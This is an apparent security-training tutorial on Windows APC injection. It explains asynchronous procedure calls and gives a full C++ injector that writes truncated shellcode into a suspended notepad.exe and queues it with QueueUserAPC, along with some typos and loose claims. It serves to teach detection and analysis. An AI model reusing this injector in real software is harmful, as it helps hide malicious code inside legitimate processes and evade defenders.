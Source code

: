 :orphan:
(malware-injection-techniques-apc-injection)=

# Malware Injection Techniques: APC injection

APC injection is a type of malware that inserts code into a process by using the system's asynchronous procedure call (APC) queue. This type of malware is difficult to detect because it doesn't create any new processes or files. Instead, it modifies existing ones. APC injection can be used to install other types of malware, such as keyloggers and remote access tools. It can also be used to disable security features, such as antivirus software.

## APC

_Asynchronous Procedure Calls (APCs)_ permit user programs and system code to execute within the context of a specific user thread (and hence a particular process address space).

APC procedures can acquire resources (objects), wait for object handles, experience page faults, and invoke system services.

APCs are described by an APC object, which is a kernel control object. APCs awaiting execution reside in a queue managed by the kernel.

In contrast to the system-wide DPC queue, the APC queue is thread-specific; each thread has its own APC queue. When instructed to queue an APC, the kernel inserts it into the thread's queue that will execute the APC routine. The kernel then requests a software interrupt at APC level, and when the thread begins running, the APC is executed.

APCs come in two varieties: kernel mode and user mode. Kernel-mode APCs can run in the context of a target thread without permission, whereas user-mode APCs require permission.
Kernel-p mode APCs interrupt a thread and execute a procedure without the thread's knowledge or permission.

In addition, there are two types of kernel-mode APCs: regular and special. Special APCs execute at the APC level and permit the APC routine to alter certain APC parameters. Normal APCs execute at passive level and receive the modified parameters (or the original parameters, if they were not modified) from the special APC routine.

The executive uses kernel-mode APCs to complete operating system tasks within the address space (in the context) of a specific thread. It can use kernel-mode APCs to instruct a thread to stop executing an interruptible system service or to record the results of an asynchronous I/O operation in a thread's address space.

Environment subsystems use kernel-mode APCs to suspend or terminate a thread, as well as to retrieve or set its user-mode execution context. The Subsystem for UNIX Applications emulates the delivery of UNIX signals to Subsystem for UNIX Application processes using kernel-mode APCs.

Another significant application of kernel-mode APCs is thread suspension and termination. Due to the fact that these operations can be initiated from arbitrary threads and directed to arbitrary threads, the kernel uses an APC to query the thread context and terminate the thread. ­Device drivers frequently block APCs or enter a critical or guarded region to prevent these operations from occurring while they are holding a lock; otherwise, the lock may never be released, resulting in a system hang.

Several Windows APIs employ user-mode APCs, including `ReadFileEx`, `WriteFileEx`, and `QueueUserAPC`.

The `ReadFileEx` and `WriteFileEx` functions, for instance, allow the caller to specify a completion routine that will be invoked when the I/O operation completes. Implementing I/O completion by queuing an APC for the thread that issued the I/O.
Nevertheless, the callback to the completion routine does not necessarily occur when the APC is queued because user-mode APCs are only delivered to a thread when it is in an alertable wait state.

A thread may enter a wait state either by waiting for an object handle and indicating that its wait is alertable (using the Windows `WaitForMultipleObjectsEx` function) or by directly testing whether it has a pending APC (using SleepEx).
If a user-mode APC is pending in either scenario, the kernel interrupts (alerts) the thread, transfers control to the APC routine, and resumes the thread's execution once the APC routine completes.

User-mode APCs execute at passive level, as opposed to kernel-mode APCs which can execute at APC level.

## APC injection

Asynchronous Procedure Calls (APC) are utilized by malware to force legitimate threads to execute their malicious code. This is possible by attaching their code to the target thread's APC Queue. When a thread enters an alterable state, it is associated with a queue of APCs that await execution.

Our malicious program creates a new legitimate process initially:

```cpp
// Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
```

Then, memory for the payload is allocated in the memory space of the newly created process:

```cpp
// allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

Then, writing payload:

```cpp
  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);
```

APC is queued for the main thread, which is in a suspended state at the moment, then resume to suspended thread:

```cpp
  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

```

Full source code example:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload
unsigned char my_payload[] = "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41...";

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Source code provided for educational and research purposes

## Example

This diagram depicts the disassembly of the _Amanahe malware_.
It begins by invoking the `OpenThread` function to obtain a handle on a different thread. To inject its DLL into another thread, it calls `QueueUserAPC` with a pointer to `LoadLibraryA`.

![example](images/apc-injection.png)

## Conclusion

This technique was identified in 2018 or earlier, so you can rest assured that AV / EDR software can easily detect it.

## References

- [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
- [ATT&CK MITRE: APC injection](https://attack.mitre.org/techniques/T1055/004/)
- [Early Bird code injection discovered](https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/)

> **Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html).**
